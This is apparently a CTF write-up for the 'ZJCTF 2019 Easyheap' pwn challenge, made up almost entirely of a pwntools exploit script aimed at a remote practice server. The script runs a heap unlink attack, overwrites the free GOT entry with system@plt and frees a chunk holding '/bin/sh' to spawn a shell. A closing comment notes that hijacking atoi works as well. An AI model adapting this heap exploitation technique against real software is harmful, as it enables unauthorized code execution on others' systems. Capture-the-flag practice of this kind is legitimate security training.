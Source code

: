 ### ZJCTF 2019 Easyheap

```python
#!/usr/bin/env python2
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug')
def debug(cmd=''):
	cmd += "b main\n"
	gdb.attach(p, cmd)
	pause()

host = "node4.buuoj.cn"
port = 26809
#p = process("./easyheap")
p = remote(host, port)

def creat(size, content):
	p.sendlineafter(":", "1")
	p.sendlineafter(":", str(size).encode())
	p.sendlineafter(":", content)

def edit(index, size, content):
	p.sendlineafter(":", "2")
	p.sendlineafter(":", str(index).encode())
	p.sendlineafter(":", str(size).encode())
	p.sendafter(":", content)

def delet(index):
	p.sendlineafter(":", "3")
	p.sendlineafter(":", str(index).encode())

creat(0x80, "aaaa")
creat(0x80, "bbbb")
creat(0x20, "/bin/sh")
addr = 0x6020e0
free_got = 0x0000000000602018
sys_plt = 0x000000000400700
payload = flat([0, 0x81, addr-0x18, addr-0x10])
payload = payload.ljust(0x80, "a")
payload += flat([0x80, 0x90])
edit(0, 0x90, payload)
delet(1)
payload = flat([free_got]).rjust(0x20, "\x00")
edit(0, 0x20, payload)
edit(0, 0x8, p64(sys_plt))
#debug()
delet(2)

p.interactive()

#劫持atoi，在menu中输入/bin/sh效果一样
```
